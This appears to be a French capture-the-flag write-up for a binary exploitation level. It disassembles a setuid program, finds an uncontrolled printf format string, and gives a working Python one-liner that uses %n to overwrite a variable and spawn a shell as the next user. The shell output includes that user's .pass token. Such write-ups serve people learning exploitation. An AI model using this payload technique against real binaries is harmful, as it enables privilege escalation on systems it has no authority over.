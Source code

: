 ## Démarches
- objdump -d level3
    ```
    0804851a <main>:
    804851a:	55                   	push   %ebp
    804851b:	89 e5                	mov    %esp,%ebp
    804851d:	83 e4 f0             	and    $0xfffffff0,%esp
    8048520:	e8 7f ff ff ff       	call   80484a4 <v>
    8048525:	c9                   	leave
    8048526:	c3                   	ret

    
    080484a4 <v>:
    80484a4:	55                   	push   %ebp
    80484a5:	89 e5                	mov    %esp,%ebp
    80484a7:	81 ec 18 02 00 00    	sub    $0x218,%esp
    80484ad:	a1 60 98 04 08       	mov    0x8049860,%eax
    80484b2:	89 44 24 08          	mov    %eax,0x8(%esp)
    80484b6:	c7 44 24 04 00 02 00 	movl   $0x200,0x4(%esp)
    80484bd:	00
    80484be:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
    80484c4:	89 04 24             	mov    %eax,(%esp)
    80484c7:	e8 d4 fe ff ff       	call   80483a0 <fgets@plt>
    80484cc:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
    80484d2:	89 04 24             	mov    %eax,(%esp)
    80484d5:	e8 b6 fe ff ff       	call   8048390 <printf@plt>
    80484da:	a1 8c 98 04 08       	mov    0x804988c,%eax
    80484df:	83 f8 40             	cmp    $0x40,%eax
    80484e2:	75 34                	jne    8048518 <v+0x74>
    80484e4:	a1 80 98 04 08       	mov    0x8049880,%eax
    80484e9:	89 c2                	mov    %eax,%edx
    80484eb:	b8 00 86 04 08       	mov    $0x8048600,%eax
    80484f0:	89 54 24 0c          	mov    %edx,0xc(%esp)
    80484f4:	c7 44 24 08 0c 00 00 	movl   $0xc,0x8(%esp)
    80484fb:	00
    80484fc:	c7 44 24 04 01 00 00 	movl   $0x1,0x4(%esp)
    8048503:	00
    8048504:	89 04 24             	mov    %eax,(%esp)
    8048507:	e8 a4 fe ff ff       	call   80483b0 <fwrite@plt>
    804850c:	c7 04 24 0d 86 04 08 	movl   $0x804860d,(%esp)
    8048513:	e8 a8 fe ff ff       	call   80483c0 <system@plt>
    8048518:	c9                   	leave
    8048519:	c3                   	ret    
    ```
  La valeur contenue à l'adresse `0x804988c` doit être `0x40`, soit 64, soit `@` en ascii

  
- Les exploits par overflow de buffer ne sont pas possibles (utilisation de *fgets* plutôt que *gets*)
- Une autre vulnérabilité commune des programmes ELF est la [*Format String Attack*](https://owasp.org/www-community/attacks/Format_string_attack) ou [*Uncontrolled Format String*](https://en.wikipedia.org/wiki/Uncontrolled_format_string)

- `./level3` et `AAA0_%08x.%08x.%08x.%08x`
  > AAA0_00000200.b7fd1ac0.b7ff37d0.30414141
- Pour écraser `0x804988c` (`\x8c\x98\x04\x08`), on peut utiliser l'option `%n` *(qui écrit le nombre de caractères précédents)* de printf (avec `$4` pour cibler la 4 ème adresse de la stack) :
    `(python -c 'print("\x8c\x98\x04\x08"+60*"A"+"%4$n")' ; cat -) | ./level3`
    ```
    �AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Wait what?!
    whoami
    level4
    pwd
    /home/user/level3
    cd ../level4
    ls -la
    total 17
    dr-xr-x---+ 1 level4 level4   80 Mar  6  2016 .
    dr-x--x--x  1 root   root    340 Sep 23  2015 ..
    -rw-r--r--  1 level4 level4  220 Apr  3  2012 .bash_logout
    -rw-r--r--  1 level4 level4 3530 Sep 23  2015 .bashrc
    -rw-r--r--+ 1 level4 level4   65 Sep 23  2015 .pass
    -rw-r--r--  1 level4 level4  675 Apr  3  2012 .profile
    -rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
    cat .pass
    b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
    ```

<br>
----
## Ressources

- [The 101 of ELF files on Linux: Understanding and Analysis](https://linux-audit.com/elf-binaries-on-linux-understanding-and-analysis/)
- [Format String Vulnerability](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)
- [Exploiting Format String Vulnerabilities - PDF](https://crypto.stanford.edu/cs155old/cs155-spring08/papers/formatstring-1.2.pdf)
- [Introduction to format string exploits](https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html)
- [CTF Field Guide - Exploiting Binaries 1](https://trailofbits.github.io/ctf/exploits/binary1.html)